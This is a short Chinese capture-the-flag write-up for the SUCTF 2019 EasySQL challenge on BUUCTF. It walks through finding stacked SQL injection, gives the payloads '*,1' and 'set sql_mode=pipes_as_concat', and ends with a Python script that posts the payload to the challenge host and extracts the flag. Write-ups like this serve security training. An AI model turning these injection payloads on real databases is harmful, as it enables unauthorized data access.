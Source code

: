 # 分析

来自[[SUCTF 2019]EasySQL](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)，sql注入，联合注入

页面功能是一个查询框，应该是sql注入，判断注入类型，使用万能密码不行，尝试联合注入，发现只有堆叠注入可行

![image-20240625204339652](image/image-20240625204339652.png)

发现Flag查询不了，也存在过滤

![image-20240625205807086](image/image-20240625205807086.png)

看了大佬的wp才知道，payload=`*,1`或者`1;set sql_mode=pipes_as_concat;select 1`，只能说很难想到

![image-20240625204740043](image/image-20240625204740043.png)

# exp

```python
import requests
import re

url = "http://c27eb3b8-f825-4660-bfed-b926df07f617.node5.buuoj.cn:81"
data={
  'query':'*,1'
}
res = requests.post(url, data=data)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", response_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

